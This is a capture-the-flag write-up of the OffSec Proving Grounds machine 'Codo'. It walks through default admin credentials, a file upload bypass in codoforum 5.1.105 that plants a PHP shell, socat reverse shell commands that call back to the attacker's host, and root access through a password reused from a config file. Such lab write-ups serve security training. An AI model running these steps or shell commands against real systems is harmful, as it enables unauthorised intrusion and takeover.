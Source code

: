 # PG Practice - Codo
## Machine Author: Offsec
## Released on: June 16, 2023
### Difficulty: Easy
### Community Difficulty: Easy
### Description: Part 2 of Mid Year CTF machines.
### Write up - Kaib3r
### Completion date - 29/03/2024


#### Introduction:

This was my second completed machine in Proving grounds without checking a write up, the first machine I did I gave up and checked a write up and realised I'd missed a couple of ports due to not doing an all ports nmap.

This was one was quite simple and I'd done it straight off the back of Sar the PG Play machine a community created machine by Love Sharma. So I had a flow going and got a foot hold in the first 10 mins most of my time was spent trying to Priv Esc without the use of Linpeas which I eventually gave in and transferred it over and ran it and got root within 10-20 minutes.

The basic steps I took are below.

| Step: | Notes: |
| --- | --- |
| 1. | I ran a all ports nmap scan without a T4 switch to get started and ran another in parallel for speed with a T4 switch and of only common ports. |
| 2. | My fast NMAP scan found port 80 opened and I navigated to it and found codologic codoforum installed. |
| 3. | I fuzzed the directory and found the admin portal, I tested the default credentials admin:admin and got in. |
| 4. | I was able to get the exact version of codoforum (Version 5.1.105) and start researching for an exploit. |
| 4.1 | ![ImgPlaceholder](img/codo-image-1.png) |
| 5. | I found an exploit from Vikaran101s Github https://github.com/Vikaran101/CVE-2022-31854/tree/main and tested this out. |
| 5.1 | Unfortunately when trying to utilize this exploit I ran into an error, thankfully Vikaran101 pointed me in the right direction with his error code and pointed out trying to do the upload manually. I realised that this was just an automated version of an insecure file upload which I could of found myself if I had of explored the admin panel more effectively. |
| 5.2 | ![ImgPlaceholder](img/codo-image-2.png) | 
| 6. | I decided to use Burpsuite to capture the file upload exploited through the admin panel. I navigated to admin panel> global settings> change forum logo for codoforum and uploaded the first picture that was in my files (a TCMAcademy logo those who have done the web exploitation section of the Practical Ethical Hacking course from them will understand why :P ) |
| 6.1 | I caught the file upload with Burp suite and modified the PNG upload to have a .php extension and left the magic bytes of the image and some of the PNG unicode/garbage that comes up and added my php one liner into it.  |
| 6.2 | ![ImgPlaceholder](img/codo-image-3.png) |
| 7. | I caught a shell through this and converted it to tty with socat (due to just coming out of the sar machine this was my go to ) commands used below |
| 7.1 | Attack Box: ```socat file:`tty`,raw,echo=0 tcp-listen:4444``` |
| 7.2 | Target: ```socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:192.168.45.175:4444``` |
| 8. | I decided to practice my Linux priv esc without Linpeas for a solid 20-30 mins but ended up transferring over linpeas to see what it dredged up. |
| 8.1 | Linpeas found a password in a php config file ```/var/www/html/sites/default/config.php``` "FatPanda123" |
| 9. | According to the config file it was the credentials were the access to the mysql db on the server which I quickly realised I had no access to. |
| 10. | I decided to credential stuff the list of users I found earlier with I cat'd the passwd file. This password ended up being the same as roots and the machine was pwned. |
| 10.1 | ![ImgPlaceholder](img/codo-image-4.png) |

|  Lessons Learnt: |  |
| --- | --- |
| 1. | Complete the functionality test of a website if you come across one, if you get admin access on the site, complete it again. I could of skipped utilizing the exploit from GitHub though I'm thankful for it and saved time by running the exploit myself which I'd already tested on the avatar upload for standard user accounts. superuser/admin areas typically have lower defenses then outside them. |
| 2. | Don't reuse passwords or store them in your config files. |
| 3. | Patch applications regularly. |
